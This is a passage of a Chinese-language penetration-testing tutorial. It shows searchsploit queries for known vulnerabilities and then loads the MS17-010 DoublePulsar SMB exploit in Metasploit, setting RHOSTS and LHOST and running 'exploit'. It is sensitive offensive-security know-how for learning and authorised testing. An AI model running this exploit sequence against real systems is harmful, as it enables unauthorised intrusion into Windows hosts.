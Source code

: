 searchsploit -p 39446  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/icCXA7Jkf1VHVzuTpiaV2zzYlqzufjEXzIg1v4XmoNRLcN6vdxru7VbzQbhAsWWCzCmRjjTUib7teqhM9Nao7LRkQ/640?wx_fmt=png&from=appmsg "")  
  
  
（6）排除dos以及PoC值的包含linux kernel 3.2的漏洞  
  
searchsploit linux kernel 3.2 --exclude="(PoC)|/dos/"  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/icCXA7Jkf1VHVzuTpiaV2zzYlqzufjEXzIWp4TTDtZoL1RWicWvgk57ayLf6t94hsNicBbwg0raqWkIAUhv1QjfmTg/640?wx_fmt=png&from=appmsg "")  
  
  
（7）查找mssql的漏洞  
  
searchsploit mssql  
  
（8）查找和window XP有关的漏洞  
  
searchsploit /xp  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/icCXA7Jkf1VHVzuTpiaV2zzYlqzufjEXzI2cFuibgFLSFUfoCul1WhRKDYJp80nERo8eeEicMVq2owKAHUcCbHUzsQ/640?wx_fmt=png&from=appmsg "")  
  
  
（9）查找apple的漏洞  
  
searchsploit apple  
  
1.4searchsploit 配合msf使用  
  
在使用searchsploit搭配Metasploit Framework (MSF)时，可以利用searchsploit找到漏洞和exploit，然后将其载入到MSF中以便进一步的利用和测试。单独的searchsploit使用起来不方便，虽然搜索会出来很多结果，包括利用代码，但没有对其进行整合，有些代码需要安装对应的模块才能使用，否则会报错。  
  
1.使用search及searchsploit查找漏洞  
  
searchsploit ms17-010  
  
search ms17-010  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/icCXA7Jkf1VHVzuTpiaV2zzYlqzufjEXzI3sQSEO3ALEI6niamJBWkdsJPyXmK1iaExJBEAWOGJ8mOiczic51r2iaHMYg/640?wx_fmt=png&from=appmsg "")  
  
2.将search找到的exploit载入到MSF  
  
（1）从结果中选择一个最佳（great）的来载入。  
  
use exploit/windows/smb/smb_doublepulsar_rce  
  
（2）show options  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/icCXA7Jkf1VHVzuTpiaV2zzYlqzufjEXzIicSeWicro1z0Sy0t7MSmvtPoHG5rAe59mHZic3Gwa2p1gUPaFU1zELTSQ/640?wx_fmt=png&from=appmsg "")  
  
  
（3）设置参数  
  
set RHOSTS 192.168.10.1  
  
set lhost 192.168.1.1  
  
exploit  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/icCXA7Jkf1VHVzuTpiaV2zzYlqzufjEXzIz9DRqjzb1X5ZumCjXWkBJRqSCIh6QCjEh1fYiaGNOjcQs1iayB0xv2rA/640?wx_fmt=png&from=appmsg "")  
  
  